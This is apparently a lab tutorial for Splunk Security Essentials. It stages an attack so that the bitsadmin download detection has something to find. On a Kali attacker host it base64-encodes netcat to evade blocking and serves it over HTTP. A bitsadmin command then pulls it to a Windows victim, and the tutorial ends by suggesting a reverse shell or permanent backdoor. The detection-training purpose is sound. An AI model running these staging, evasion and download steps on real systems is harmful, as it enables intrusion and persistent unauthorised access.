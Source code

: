 ### Splunk Security Essentials
1. Let's get familiar with **Splunk Security Essentials**. Explore security use cases and discover security content to start address threats and challenges.
But before you go, make sure you have **Splunk Common Information Model (CIM)** app installed (if not, install, pls). 

Apps > Find More Apps 
![](attachments/2.5-CIM_install.png)

---
2. Install Splunk Security Essentials

Apps > Find More Apps
![](attachments/2.5-SSE_install.png)

---  
3. Open Splunk Security Essentials

Click on Find Content > Security Detection Basics > Security Monitoring

![](attachments/2.5-SSE_open.png)

---  
![](attachments/2.5-SSE_open2.png)  

---

4. Find **BITSAdmin Download File** and open it

![](attachments/2.5-SSE_open_bitsadmin.png)

---  
Here you get a description about the query which identifies Microsoft Background Intelligent Transfer Service utility bitsadmin.exe using the transfer parameter to download a remote object (for example a malware stager, or other payload).  



![](attachments/2.5-SSE_bitsadmin1.png)  

---

  

 
And you can check the query (or modify - not recommended at first time) and run it to get some interesting result.

![](attachments/2.5-SSE_bitsadmin2.png)  

--- 


If you see similar (red exclamation marks) just click "Add Macro" one by one.
![](attachments/2.5-SSE_bitsadmin_error.png)  

---  


5. Lets go to the Kali, login via ssh or VM console, and prepare the attacker host. We need a webserver to host our malware/payload or "only" a reverse shell capable tool. To do this, we should install a python based http server (or similar).

```bash
pip install rangehttpserver
```

Create a directory to store our tools for the upcomings.
```bash
mkdir attack
cd attack
```

We would like to use the netcat to open a a reverse shell to our attacker machine, so our goal is to transfer the netcat to the victim machine. Copy the netcat utility (windows version) to this newly created folder.
```bash
cp /usr/share/windows-resources/binaries/nc.exe .
```

To avoid blocking our malicious transfer encode(base64) and rename the infamous/famous netcat binary.

```bash
base64 nc.exe > b64nc
```

Now we are ready to host our tool by our new http server, so lets start it from the attack directory where our b64nc (the encoded binary) is. 

```bash
python -m RangeHTTPServer 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
```
---  

6. Switch to the victim machine (Win10, ip: 198.18.133.10), and start downloading the prepared b64nc by bitsadmin (mostly because if we managed to get into a system by an exploitation most of the times we only have a shell for the first steps)

```bash
bitsadmin /transfer n http://198.18.24.100:8080/b64nc c:\temp\myshell64
```

---  

7. Lets check the tracks of previous operation by the Splunk Security Essentials bitsadmin donwloads detection query. Do the search, examine the details and click on the data to get more information about the event. 
![](attachments/2.5-SSE_bitsadmin3.png)


Optional: now we have a base64 encoded netcat on the wictim host, we can decode, rename and use it to open a reverse shell to our kali (just for fun - or using maintain a permanent backdoor).
